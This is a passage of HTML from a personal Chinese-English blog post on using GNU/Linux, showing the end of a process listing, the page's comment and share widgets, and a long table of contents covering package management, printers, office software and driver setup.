 <span class="number">11856</span>  <span class="number">2328</span> ?        Ss   <span class="number">15</span>:<span class="number">34</span>   <span class="number">0</span>:<span class="number">00</span> /sbin/mount.ntfs /dev/sde3 /media/admin/RyanWS -o rw,nodev,nosuid,windows_names,uid=<span class="number">1000</span>,gid=<span class="number">1000</span>,uhelper=udisks2</span><br><span class="line">admin      <span class="number">51733</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">10584</span>   <span class="number">440</span> ?        S    <span class="number">15</span>:<span class="number">35</span>   <span class="number">0</span>:<span class="number">00</span> sleep <span class="number">5</span></span><br><span class="line">admin      <span class="number">51770</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">14140</span>  <span class="number">2916</span> pts/<span class="number">0</span>    R+   <span class="number">15</span>:<span class="number">35</span>   <span class="number">0</span>:<span class="number">00</span> ps aux</span><br></pre></td></tr></table></figure>
<p>​        </p>


        <hr>
        <!-- Pager -->
        <ul class="pager">
          
          <li class="previous">
            <a href="/2020/Linux-notes/" data-toggle="tooltip" data-placement="top" title="Linux-notes">&larr; Previous Post</a>
          </li>
          
          
          <li class="next">
            <a href="/2020/APAT-1921-2012/" data-toggle="tooltip" data-placement="top" title="APAT-1921~2012">Next Post &rarr;</a>
          </li>
          
        </ul>

        
        <!-- tip start -->
        <div class="tip">
          <p>
            If you like this blog or find it useful for you, you are welcome to comment on it. You are also welcome to share this blog, so that more people can participate in it. If the images used in the blog infringe your copyright, please contact the author to delete them. Thank you !
          </p>
        </div>
        <!-- tip end -->
        

        
        <!-- Sharing Srtart -->
        <!-- Social Social Share Post -->
<!-- Docs:https://github.com/overtrue/share.js -->

<div class="social-share" data-initialized="true" data-disabled="tencent ,douban ,qzone ,linkedin ,facebook ,google ,diandian" data-wechat-qrcode-helper="" align="center">
  <ul class="list-inline text-center social-share-ul">
    <li class="social-share-li">
      <a target="_blank" class="social-share-icon icon-twitter">
        <i class="fa fa-twitter fa-1x" aria-hidden="true"></i>
      </a>
    </li>
    <li class="social-share-li">
      <a class="social-share-icon icon-wechat">
        <i class="fa fa-weixin fa-1x" aria-hidden="true"></i>
      </a>
    </li>
    <li class="social-share-li">
      <a target="_blank" class="social-share-icon icon-weibo">
        <i class="fa fa-weibo fa-1x" aria-hidden="true"></i>
      </a>
    </li>
    <li class="social-share-li">
      <a target="_blank" class="social-share-icon icon-qq">
        <i class="fa fa-qq fa-1x" aria-hidden="true"></i>
      </a>
    </li>
    <li class="social-share-li">
      <a target="_blank" class="social-share-icon" href="mailto:?subject=Why Linux&body=Hi,I found this website and thought you might like it https://rmshadows.gitee.io/2020/Why-Linux/">
        <i class="fa fa-envelope fa-1x" aria-hidden="true"></i>
      </a>
    </li>
  </ul>
</div>

<!-- css & js -->
<!-- <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/social-share.js/1.0.16/css/share.min.css"> -->
<script defer="defer" async="true" src="https://cdnjs.cloudflare.com/ajax/libs/social-share.js/1.0.16/js/social-share.min.js"></script>

        <!-- Sharing End -->
        
        <hr>

        <!-- comments start -->
        <!--修改--artalk-->
<!-- 0.artalk安装代码 -->

<!-- CSS -->
<link href="https://civiccccc.ltd/artalk/dist/Artalk.css" rel="stylesheet" />
<link href="https://civiccccc.ltd/artalk/dist/Artalk.css" rel="stylesheet" />
<!-- JS -->
<script src="https://civiccccc.ltd/artalk/dist/Artalk.js"></script>
<!-- Artalk -->
<div id="Comments"></div>
<script>
  Artalk.init({
    el: '#Comments', // 绑定元素的 Selector
    pageKey: 'https://rmshadows.gitee.io/2020/Why-Linux/', // 固定链接
    pageTitle: '', // 页面标题 (留空自动获取)
    server: 'https://civiccccc.ltd/artalk', // 后端地址
    site: 'CIVICCCCC的博客', // 你的站点名
  })
</script>
<!-- artalk安装代码已完成 -->


<!-- 1. gitalk comment -->


<!-- 2. gitment comment -->


<!-- 3. disqus comment -->


<!--修改--Livere-->


<!--修改--ISSO-->

        <!-- comments end -->
        <hr>

      </div>

      <!-- Catalog: Tabe of Content -->
      <!-- Table of Contents -->

    
      <aside id="sidebar">
        <!--div id="toc" class="toc-article" -->
        <div id="toc" class="toc-article">
        <strong class="toc-title">Contents</strong>
        
          
            <ol class="toc-nav"><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#快速导航"><span class="toc-nav-number">1.</span> <span class="toc-nav-text">快速导航</span></a></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#为什么我选择Linux-Why-GNU-Linux"><span class="toc-nav-number">2.</span> <span class="toc-nav-text">为什么我选择Linux - Why GNU&#x2F;Linux</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#WIndows优点-Advantages"><span class="toc-nav-number">2.1.</span> <span class="toc-nav-text">WIndows优点 - Advantages</span></a></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Windows缺点-Disadvantages"><span class="toc-nav-number">2.2.</span> <span class="toc-nav-text">Windows缺点 -  Disadvantages</span></a></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Windows卡顿吗"><span class="toc-nav-number">2.3.</span> <span class="toc-nav-text">Windows卡顿吗</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#安装软件记得去官网！"><span class="toc-nav-number">3.</span> <span class="toc-nav-text">安装软件记得去官网！</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#关于Linux-About"><span class="toc-nav-number">3.1.</span> <span class="toc-nav-text">关于Linux - About</span></a></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Linux桌面-GNOME-or-KDE"><span class="toc-nav-number">3.2.</span> <span class="toc-nav-text">Linux桌面 - GNOME or KDE?</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#我的设备-Device"><span class="toc-nav-number">4.</span> <span class="toc-nav-text">我的设备 - Device</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#硬件外设-Hardware"><span class="toc-nav-number">4.1.</span> <span class="toc-nav-text">硬件外设 - Hardware</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#USB摄像头"><span class="toc-nav-number">4.1.1.</span> <span class="toc-nav-text">USB摄像头</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#USB键盘"><span class="toc-nav-number">4.1.2.</span> <span class="toc-nav-text">USB键盘</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#USB刻录光驱"><span class="toc-nav-number">4.1.3.</span> <span class="toc-nav-text">USB刻录光驱</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#USB蓝牙"><span class="toc-nav-number">4.1.4.</span> <span class="toc-nav-text">USB蓝牙</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#USB无线网卡"><span class="toc-nav-number">4.1.5.</span> <span class="toc-nav-text">USB无线网卡</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#其他设备"><span class="toc-nav-number">4.2.</span> <span class="toc-nav-text">其他设备</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#使用经验-Something-to-share-with-you"><span class="toc-nav-number">5.</span> <span class="toc-nav-text">使用经验 - Something to share with you</span></a></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#Linux发行版推荐-About-Linux-Distributions"><span class="toc-nav-number">6.</span> <span class="toc-nav-text">Linux发行版推荐 - About Linux Distributions</span></a></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#快速打造我的工作台-Todo-when-setting-up-a-new-Debian-GNU-Linux"><span class="toc-nav-number">7.</span> <span class="toc-nav-text">快速打造我的工作台 - Todo when setting up a new Debian GNU&#x2F;Linux</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#截屏"><span class="toc-nav-number">7.1.</span> <span class="toc-nav-text">截屏</span></a></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#软件包清单——Applications"><span class="toc-nav-number">7.2.</span> <span class="toc-nav-text">软件包清单——Applications</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-1"><a class="toc-nav-link" href="#GNU-Linux-Notes"><span class="toc-nav-number">8.</span> <span class="toc-nav-text">GNU&#x2F;Linux Notes</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#部分常用命令示例"><span class="toc-nav-number">8.1.</span> <span class="toc-nav-text">部分常用命令示例</span></a></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#软件管理相关"><span class="toc-nav-number">8.2.</span> <span class="toc-nav-text">软件管理相关</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#APT-amp-DPKG"><span class="toc-nav-number">8.2.1.</span> <span class="toc-nav-text">APT  &amp; DPKG</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#APT常用命令解析"><span class="toc-nav-number">8.2.2.</span> <span class="toc-nav-text">APT常用命令解析</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#DPKG常用命令解析"><span class="toc-nav-number">8.2.3.</span> <span class="toc-nav-text">DPKG常用命令解析</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#其他相关"><span class="toc-nav-number">8.2.4.</span> <span class="toc-nav-text">其他相关</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#查看软件依赖"><span class="toc-nav-number">8.2.4.1.</span> <span class="toc-nav-text">查看软件依赖</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#APT-Upgrade-Full-upgrade-Dist-upgrade区别"><span class="toc-nav-number">8.2.4.2.</span> <span class="toc-nav-text">APT Upgrade Full-upgrade Dist-upgrade区别</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#APT自定义不升级的软件包"><span class="toc-nav-number">8.2.4.3.</span> <span class="toc-nav-text">APT自定义不升级的软件包</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Linux知识"><span class="toc-nav-number">8.3.</span> <span class="toc-nav-text">Linux知识</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#忠告"><span class="toc-nav-number">8.3.1.</span> <span class="toc-nav-text">忠告</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#The-Unix-Way——One-thing-at-a-time"><span class="toc-nav-number">8.3.2.</span> <span class="toc-nav-text">The Unix Way——One thing at a time</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Linux开机过程-和-Systemd"><span class="toc-nav-number">8.3.3.</span> <span class="toc-nav-text">Linux开机过程 和 Systemd</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Linux-文件系统和文件权限"><span class="toc-nav-number">8.3.4.</span> <span class="toc-nav-text">Linux 文件系统和文件权限</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#文件系统结构"><span class="toc-nav-number">8.3.4.1.</span> <span class="toc-nav-text">文件系统结构</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#文件权限"><span class="toc-nav-number">8.3.4.2.</span> <span class="toc-nav-text">文件权限</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#关于Linux源码编译安装软件"><span class="toc-nav-number">8.3.5.</span> <span class="toc-nav-text">关于Linux源码编译安装软件</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#常见进入BIOS的按键"><span class="toc-nav-number">8.3.6.</span> <span class="toc-nav-text">常见进入BIOS的按键</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Linux办公相关"><span class="toc-nav-number">8.4.</span> <span class="toc-nav-text">Linux办公相关</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#中文输入法"><span class="toc-nav-number">8.4.1.</span> <span class="toc-nav-text">中文输入法</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#打印机系统"><span class="toc-nav-number">8.4.2.</span> <span class="toc-nav-text">打印机系统</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#通用驱动、通用打印系统"><span class="toc-nav-number">8.4.2.1.</span> <span class="toc-nav-text">通用驱动、通用打印系统</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#BROTHER"><span class="toc-nav-number">8.4.2.2.</span> <span class="toc-nav-text">BROTHER</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#爱普生——EPSON"><span class="toc-nav-number">8.4.2.3.</span> <span class="toc-nav-text">爱普生——EPSON</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#奔图——Pantum"><span class="toc-nav-number">8.4.2.4.</span> <span class="toc-nav-text">奔图——Pantum</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#联想——Lenovo"><span class="toc-nav-number">8.4.2.5.</span> <span class="toc-nav-text">联想——Lenovo</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#惠普——HP"><span class="toc-nav-number">8.4.2.6.</span> <span class="toc-nav-text">惠普——HP</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#打印机管理GUI"><span class="toc-nav-number">8.4.2.7.</span> <span class="toc-nav-text">打印机管理GUI</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#CUPS"><span class="toc-nav-number">8.4.2.8.</span> <span class="toc-nav-text">CUPS</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Linux修改网卡名称"><span class="toc-nav-number">8.4.3.</span> <span class="toc-nav-text">Linux修改网卡名称</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Linux安装字体——包括WPS字体"><span class="toc-nav-number">8.4.4.</span> <span class="toc-nav-text">Linux安装字体——包括WPS字体</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Rsync备份磁盘（本地）"><span class="toc-nav-number">8.4.5.</span> <span class="toc-nav-text">Rsync备份磁盘（本地）</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#以管理员权限运行或者图形化编辑系统文件-——-Run-as-admin-or-Edit-system-files"><span class="toc-nav-number">8.4.6.</span> <span class="toc-nav-text">以管理员权限运行或者图形化编辑系统文件 —— Run as admin or Edit system files</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#办公室以及局域网安"><span class="toc-nav-number">8.4.7.</span> <span class="toc-nav-text">办公室以及局域网安</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#检测局域网中的DHCP服务器"><span class="toc-nav-number">8.4.7.1.</span> <span class="toc-nav-text">检测局域网中的DHCP服务器</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#设置DoH（DNS-over-HTTP）"><span class="toc-nav-number">8.4.7.2.</span> <span class="toc-nav-text">设置DoH（DNS over HTTP）</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#一些办公技巧"><span class="toc-nav-number">8.4.8.</span> <span class="toc-nav-text">一些办公技巧</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Word转txt"><span class="toc-nav-number">8.4.8.1.</span> <span class="toc-nav-text">Word转txt</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#ls只显示一列"><span class="toc-nav-number">8.4.8.2.</span> <span class="toc-nav-text">ls只显示一列</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决zip压缩包乱码问题"><span class="toc-nav-number">8.4.8.3.</span> <span class="toc-nav-text">解决zip压缩包乱码问题</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#处理RAR压缩包"><span class="toc-nav-number">8.4.8.4.</span> <span class="toc-nav-text">处理RAR压缩包</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#压缩包文件名称过长"><span class="toc-nav-number">8.4.8.5.</span> <span class="toc-nav-text">压缩包文件名称过长</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#清空文件内容"><span class="toc-nav-number">8.4.8.6.</span> <span class="toc-nav-text">清空文件内容</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#批量转换jpg"><span class="toc-nav-number">8.4.8.7.</span> <span class="toc-nav-text">批量转换jpg</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#磁盘检查、修复"><span class="toc-nav-number">8.4.9.</span> <span class="toc-nav-text">磁盘检查、修复</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#固态硬盘检测"><span class="toc-nav-number">8.4.9.1.</span> <span class="toc-nav-text">固态硬盘检测</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#检查错误日志内容（查看到底错了啥）"><span class="toc-nav-number">8.4.9.2.</span> <span class="toc-nav-text">检查错误日志内容（查看到底错了啥）</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#如果你怀疑硬件不稳定，可以做fio测试"><span class="toc-nav-number">8.4.9.3.</span> <span class="toc-nav-text">如果你怀疑硬件不稳定，可以做fio测试</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#查看开关机的journalctl历史日志"><span class="toc-nav-number">8.4.10.</span> <span class="toc-nav-text">查看开关机的journalctl历史日志</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#筛选出优先级为-错误级别（priority-3）及以上-的日志"><span class="toc-nav-number">8.4.10.1.</span> <span class="toc-nav-text">筛选出优先级为 错误级别（priority 3）及以上 的日志</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#查看上次启动的日志"><span class="toc-nav-number">8.4.10.2.</span> <span class="toc-nav-text">查看上次启动的日志</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#查看关机日志"><span class="toc-nav-number">8.4.10.3.</span> <span class="toc-nav-text">查看关机日志</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#导出每次开关机的单独日志"><span class="toc-nav-number">8.4.10.4.</span> <span class="toc-nav-text">导出每次开关机的单独日志</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Debian12-中-WPS-Linux-导出PDF过程中出现错误"><span class="toc-nav-number">8.4.11.</span> <span class="toc-nav-text">Debian12 中 WPS Linux 导出PDF过程中出现错误</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#银河麒麟WPS卸载出错已安装wps-office-软件包pre-removal脚本子进程返回错误状态2"><span class="toc-nav-number">8.4.12.</span> <span class="toc-nav-text">银河麒麟WPS卸载出错已安装wps-office 软件包pre- removal脚本子进程返回错误状态2</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#银河麒麟WPS安装出错python3-can-39-t-open-file-39-opt-kingsoft-wps-office-INSTALL-delmime-python3-py-39-Errno-2-No-such-file-or-directory"><span class="toc-nav-number">8.4.13.</span> <span class="toc-nav-text">银河麒麟WPS安装出错python3: can&#39;t open file &#39; &#x2F;opt&#x2F;kingsoft&#x2F;wps -office&#x2F;INSTALL&#x2F;delmime_ python3.py&#39;: [Errno 2] No such file or directory</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#WPS：dlopen-opt-kingsoft-wps-office-office6-libkprometheus-so-failed-error-libcrypto-so-1-1-无法打开共享对象文件-没有那个文件或目录"><span class="toc-nav-number">8.4.14.</span> <span class="toc-nav-text">WPS：dlopen &#x2F;opt&#x2F;kingsoft&#x2F;wps-office&#x2F;office6&#x2F;libkprometheus.so failed , error: libcrypto.so.1.1: 无法打开共享对象文件: 没有那个文件或目录</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#国产系统（华为ARM芯片-UOS统信或者银河麒麟）"><span class="toc-nav-number">8.4.15.</span> <span class="toc-nav-text">国产系统（华为ARM芯片+UOS统信或者银河麒麟）</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#更换桌面环境"><span class="toc-nav-number">8.4.15.1.</span> <span class="toc-nav-text">更换桌面环境</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决银河麒麟v10-sp1更换桌面环境后无法登陆的问题"><span class="toc-nav-number">8.4.15.2.</span> <span class="toc-nav-text">解决银河麒麟v10 sp1更换桌面环境后无法登陆的问题</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux微信"><span class="toc-nav-number">8.4.15.3.</span> <span class="toc-nav-text">Linux微信</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#KDE桌面下无法使用DDE-Wine微信的问题"><span class="toc-nav-number">8.4.15.4.</span> <span class="toc-nav-text">KDE桌面下无法使用DDE Wine微信的问题</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#KDE桌面下刚开机总是出现dde-preload的终端"><span class="toc-nav-number">8.4.15.5.</span> <span class="toc-nav-text">KDE桌面下刚开机总是出现dde-preload的终端</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟：E-软件包-kylin-activation-需要重新安装，但是我无法找到相应的安装文件。"><span class="toc-nav-number">8.4.15.6.</span> <span class="toc-nav-text">银河麒麟：E: 软件包 kylin-activation 需要重新安装，但是我无法找到相应的安装文件。</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#UOS文件管理器nautilus添加模板文件"><span class="toc-nav-number">8.4.15.7.</span> <span class="toc-nav-text">UOS文件管理器nautilus添加模板文件</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟火狐浏览器打不开Github搜索框"><span class="toc-nav-number">8.4.15.8.</span> <span class="toc-nav-text">银河麒麟火狐浏览器打不开Github搜索框</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#UOS打开Bitlocker"><span class="toc-nav-number">8.4.15.9.</span> <span class="toc-nav-text">UOS打开Bitlocker</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟命令行调整屏幕亮度"><span class="toc-nav-number">8.4.15.10.</span> <span class="toc-nav-text">银河麒麟命令行调整屏幕亮度</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟安装antiword"><span class="toc-nav-number">8.4.15.11.</span> <span class="toc-nav-text">银河麒麟安装antiword</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟VNC中Xfce4桌面没有标题栏"><span class="toc-nav-number">8.4.15.12.</span> <span class="toc-nav-text">银河麒麟VNC中Xfce4桌面没有标题栏</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟fdisk-l输出"><span class="toc-nav-number">8.4.15.13.</span> <span class="toc-nav-text">银河麒麟fdisk -l输出</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#银河麒麟部分应用示例"><span class="toc-nav-number">8.4.15.14.</span> <span class="toc-nav-text">银河麒麟部分应用示例</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#国产系统打印机"><span class="toc-nav-number">8.4.15.15.</span> <span class="toc-nav-text">国产系统打印机</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Linux手机互联"><span class="toc-nav-number">8.4.16.</span> <span class="toc-nav-text">Linux手机互联</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#无线网卡驱动"><span class="toc-nav-number">8.4.17.</span> <span class="toc-nav-text">无线网卡驱动</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#通用教程"><span class="toc-nav-number">8.4.17.1.</span> <span class="toc-nav-text">通用教程</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux-的-USB-WiFi-芯片组信息"><span class="toc-nav-number">8.4.17.2.</span> <span class="toc-nav-text">Linux 的 USB WiFi 芯片组信息</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#找不到联发科芯片的驱动？"><span class="toc-nav-number">8.4.17.3.</span> <span class="toc-nav-text">找不到联发科芯片的驱动？</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#监听模式"><span class="toc-nav-number">8.4.17.4.</span> <span class="toc-nav-text">监听模式</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#AC-1200驱动-——-Realtek-8812AU"><span class="toc-nav-number">8.4.17.5.</span> <span class="toc-nav-text">AC-1200驱动 —— Realtek 8812AU</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#D-Link-DWA-192网卡驱动-——-Realtek-8814AU"><span class="toc-nav-number">8.4.17.6.</span> <span class="toc-nav-text">D-Link DWA-192网卡驱动 —— Realtek 8814AU</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#水星Mercury-UD6无线网卡驱动——Realtek-8821CU"><span class="toc-nav-number">8.4.17.7.</span> <span class="toc-nav-text">水星Mercury UD6无线网卡驱动——Realtek 8821CU</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#清理Linux磁盘空间"><span class="toc-nav-number">8.4.18.</span> <span class="toc-nav-text">清理Linux磁盘空间</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#APT-Purge清理配置文件"><span class="toc-nav-number">8.4.18.1.</span> <span class="toc-nav-text">APT Purge清理配置文件</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Autoclean清理APT没有用的deb软件安装包"><span class="toc-nav-number">8.4.18.2.</span> <span class="toc-nav-text">Autoclean清理APT没有用的deb软件安装包</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Autoremove删除孤儿软件包（自动安装）"><span class="toc-nav-number">8.4.18.3.</span> <span class="toc-nav-text">Autoremove删除孤儿软件包（自动安装）</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#清理日志文件"><span class="toc-nav-number">8.4.18.4.</span> <span class="toc-nav-text">清理日志文件</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#删除过时的软件包"><span class="toc-nav-number">8.4.18.5.</span> <span class="toc-nav-text">删除过时的软件包</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#删除大容量软件包"><span class="toc-nav-number">8.4.18.6.</span> <span class="toc-nav-text">删除大容量软件包</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#反向查看依赖关系"><span class="toc-nav-number">8.4.18.7.</span> <span class="toc-nav-text">反向查看依赖关系</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#重复文件查找工具"><span class="toc-nav-number">8.4.18.8.</span> <span class="toc-nav-text">重复文件查找工具</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#弃用-使用ubuntu-tweak来清理"><span class="toc-nav-number">8.4.18.9.</span> <span class="toc-nav-text">(弃用)使用ubuntu-tweak来清理</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#分区扩容"><span class="toc-nav-number">8.4.18.10.</span> <span class="toc-nav-text">分区扩容</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#du报告目录树使用的硬盘空间"><span class="toc-nav-number">8.4.18.11.</span> <span class="toc-nav-text">du报告目录树使用的硬盘空间</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Xrandr-控制屏幕输出"><span class="toc-nav-number">8.4.19.</span> <span class="toc-nav-text">Xrandr 控制屏幕输出</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#关于Linux分屏（转载）"><span class="toc-nav-number">8.4.20.</span> <span class="toc-nav-text">关于Linux分屏（转载）</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#终端配置、使用"><span class="toc-nav-number">8.5.</span> <span class="toc-nav-text">终端配置、使用</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#终端临时走代理"><span class="toc-nav-number">8.5.1.</span> <span class="toc-nav-text">终端临时走代理</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#终端多任务-fg、bg、jobs"><span class="toc-nav-number">8.5.2.</span> <span 